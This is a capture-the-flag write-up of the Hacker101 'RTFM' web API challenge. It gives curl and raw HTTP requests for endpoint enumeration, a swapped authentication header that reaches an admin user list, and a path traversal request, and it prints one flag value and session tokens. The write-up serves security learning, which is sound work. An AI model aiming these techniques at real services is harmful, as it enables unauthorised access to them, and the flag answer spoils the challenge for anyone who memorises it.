


# RTFM - CTF Challenge Writeup
**Difficulty:** Moderate  
**Category:** Web  
**Flags:** 7/8

---

## 🧠 Thought Process
This challenge appeared to be a web API pentesting scenario. The hint mentioned using dirsearch to find endpoints, which suggested this was about API enumeration and discovery. The challenge name "RTFM" (Read The F***ing Manual) hinted that documentation or API specs would be key.

---

## 🔍 Step 1: Directory Enumeration
Following the first hint, I used dirsearch to enumerate endpoints. After extensive searching, I discovered a crucial endpoint:

```
/v2/swagger.json
```

This Swagger/OpenAPI documentation file revealed the API structure and available endpoints.



**Flag 1 Captured:** Found in the Swagger documentation

---

## 🚪 Step 2: API User Endpoint Discovery
Through enumeration, I found the user management endpoint:
```
/api/v1/user
```

When sending a POST request without parameters:
```bash
curl -X POST https://7e157d6d1c713e22bd907d8987468529.ctf.hacker101.com/api/v1/user
```

**Response:**
```json
{
  "error": "Missing username and password field"
}
```

---

## 🔐 Step 3: User Registration Testing
Testing user registration with random credentials:
```bash
curl -X POST https://7e157d6d1c713e22bd907d8987468529.ctf.hacker101.com/api/v1/user \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=test&password=test"
```

**Response:**
```json
{
  "username": "test",
  "flag": "^FLAG^619579aa2aaf4537a506db8f1c53b035bdab6963535d50cd0edf8c610f7b7539$FLAG$",
  "message": "User created go to /api/v1/user/login to login"
}
```

**Flag 2 Captured:** Revealed during user registration

However, when trying to register with username "admin":
```bash
curl -X POST https://7e157d6d1c713e22bd907d8987468529.ctf.hacker101.com/api/v1/user \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=admin&password=secresadasdasdt"
```

**Response:**
```json
{
  "error": "Username already exists"
}
```

This confirmed that an admin user already existed in the system.

---

## ⚙️ Step 4: Configuration Endpoint
I discovered the configuration endpoint:
```
/api/v1/config
```

Accessing this URL directly revealed the third flag:


**Flag 3 Captured:** Found in the configuration endpoint

---

## 🔑 Step 5: User Authentication
After creating a user, I logged in to get a token:

```bash
curl -X POST -d "username=test&password=test" \
  https://4c11120ac117ab2819635cec6a8c85f8.ctf.hacker101.com/api/v1/user/login
```

**Response:**
```json
{"token":"92832821b3f9f7fec46809965f8ab6bc"}
```

---

## 🔧 Step 6: Status Endpoint Exploitation
I discovered the status endpoint:
```
/api/v1/status
```

By fuzzing this endpoint with parameters like `verbose` and account information:



**Flag 4 Captured:** Found by fuzzing the status endpoint

---

## 👑 Step 7: Admin Panel Access
Found the admin user list endpoint:
```
/api/v2/admin/user-list
```

By changing the authentication header from `X-Token` to `X-Session`:

```http
GET /api/v2/admin/user-list HTTP/1.1
Host: 4c11120ac117ab2819635cec6a8c85f8.ctf.hacker101.com
X-Session: 92832821b3f9f7fec46809965f8ab6bc
```

**Flag 5 Captured:** Found in the admin user list endpoint

---

## 📝 Step 8: User Posts Endpoint
Discovered the user posts endpoint:
```
/api/v1/user/posts/1
```

Using the original token header:

```http
GET /api/v1/user/posts/1 HTTP/1.1
Host: 4c11120ac117ab2819635cec6a8c85f8.ctf.hacker101.com
X-Token: 92832821b3f9f7fec46809965f8ab6bc
```

**Flag 6 Captured:** Found in the user posts endpoint

---

## 📊 Step 9: Post Analytics Directory Traversal
Found the post analytics endpoint and exploited directory traversal:

```http
GET /api/v1/post-analytics/..\ HTTP/1.1
Host: 4c11120ac117ab2819635cec6a8c85f8.ctf.hacker101.com
X-Token: 92832821b3f9f7fec46809965f8ab6bc
```

**Response:**
```json
{"endpoints":[{"endpoint":"\/public"}]}
```

Accessing the public endpoint:
```json
{"campaigns":["3c8a6664b8203c2e0b2b24972ccf5ce3"]}
```

By fuzzing and finding the private endpoint:
```http
GET /api/v1/post-analytics/..\private HTTP/1.1
Host: 4c11120ac117ab2819635cec6a8c85f8.ctf.hacker101.com
X-Token: 92832821b3f9f7fec46809965f8ab6bc
```

**Flag 7 Captured:** Found in the private analytics endpoint

---

## 🛠️ Additional Enumeration
Using gobuster for further directory discovery:
```bash
gobuster dir -w directory-list-lowercase-2.3-big.txt \
  -u https://7e157d6d1c713e22bd907d8987468529.ctf.hacker101.com/api/v1/
```

This revealed additional endpoints including the status endpoint mentioned above.

---

## 🏁 Flags Captured (7/8)
1. **Flag 1:** Found in `/v2/swagger.json` 
2. **Flag 2:** `^FLAG^619579aa2aaf4537a506db8f1c53b035bdab6963535d50cd0edf8c610f7b7539$FLAG$`
3. **Flag 3:** Found in `/api/v1/config`
4. **Flag 4:** Found in `/api/v1/status` with verbose parameter
5. **Flag 5:** Found in `/api/v2/admin/user-list` using X-Session header
6. **Flag 6:** Found in `/api/v1/user/posts/1`
7. **Flag 7:** Found in `/api/v1/post-analytics/..\private`

---

## 📚 Key Takeaways
- **API Documentation:** Always check for Swagger/OpenAPI documentation (`/swagger.json`, `/v2/swagger.json`)
- **User Registration:** Test user registration endpoints for information disclosure
- **Configuration Endpoints:** Look for `/config` or similar endpoints that might expose sensitive information
- **Directory Enumeration:** Use tools like dirsearch and gobuster to discover hidden endpoints
- **Header Manipulation:** Try different authentication headers (X-Token vs X-Session)
- **Directory Traversal:** Look for path traversal vulnerabilities in analytics/reporting endpoints
- **Parameter Fuzzing:** Test endpoints with various parameters to uncover hidden functionality

---

## 🔄 Next Steps
There is still 1 more flag to discover. Potential areas to explore:
- Further exploitation of the avatar functionality mentioned in the writeup
- Additional parameter injection in discovered endpoints
- JWT token analysis and manipulation
- More sophisticated directory traversal techniques
- SQL injection or other injection vectors in user input fields